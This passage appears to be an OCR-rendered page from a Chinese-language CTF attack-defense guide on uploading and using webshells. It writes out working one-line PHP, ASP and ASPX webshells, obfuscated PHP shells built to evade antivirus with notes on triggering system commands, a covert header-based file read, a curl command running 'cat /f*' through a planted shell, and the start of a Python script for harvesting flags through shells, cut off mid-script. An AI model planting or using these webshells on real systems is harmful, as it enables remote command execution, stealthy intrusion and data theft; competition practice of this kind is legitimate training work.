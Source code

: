 - Semcms
- ThinkPHP
- Wolfcms
- Wordpress
- Zabbix

备份文件爆破：使用7kbScan等目录扫描工具对Web系统进行爆破

#### 3.2.4 上传WebShell

常见一句话木马

```php
PHP： <?php @eval($_POST['pass']);?>      <?php eval($_GET['pass']);
Asp：   <%eval request ("pass")%>
Aspx：  <%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>
```

Get型木马

```php
<?php eval($_GET['pass']);           //利用方式/shell.php?pass=eval($_POST[1]);
```

免杀马制作：[https://github.com/AabyssZG/WebShell-Bypass-Guide](https://github.com/AabyssZG/WebShell-Bypass-Guide)

```php
<?=~$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);                            //执行GET传参 ?_=system&__=whoami 来执行whoami命令
<?=~$_='$<>/'^'{{{{';$___='$+4(/' ^ '{{{{{';@${$_}[_](@${$___}[__]);   //执行GET传参 ?_=assert 和POST传参 __=PHP代码来GetShell
```

隐藏的文件读取

```php
<?php
header(php'flag:'.file_get_contents('/flag'));
```

条件允许的话，将flag信息直接读取并返回到header头中，这样做不易被发现

#### 3.2.5 利用WebShell

curl(跟hackbar差不多)

```c
C:\Users\admin>curl "http://192.168.182.130:8801/include/shell.php" -d "admin_ccmd=system('cat /f*');"
//向shell.php文件里传入参数并返回结果
```

Python多端口传参

```python
#coding=utf-8
import requests

url_head="http://192.168.182.130"   #网段
url=""
shell_addr="/upload/url/shell.php" #木马路径
passwd="pass"                   #木马密码
#port="80"
payload = {passwd: 'System(\'cat /flag\');'}
# find / -name "flag*"

#清空上次记录
flag=open("flag.txt","w")
flag.close()
flag=open("flag.txt","a")

```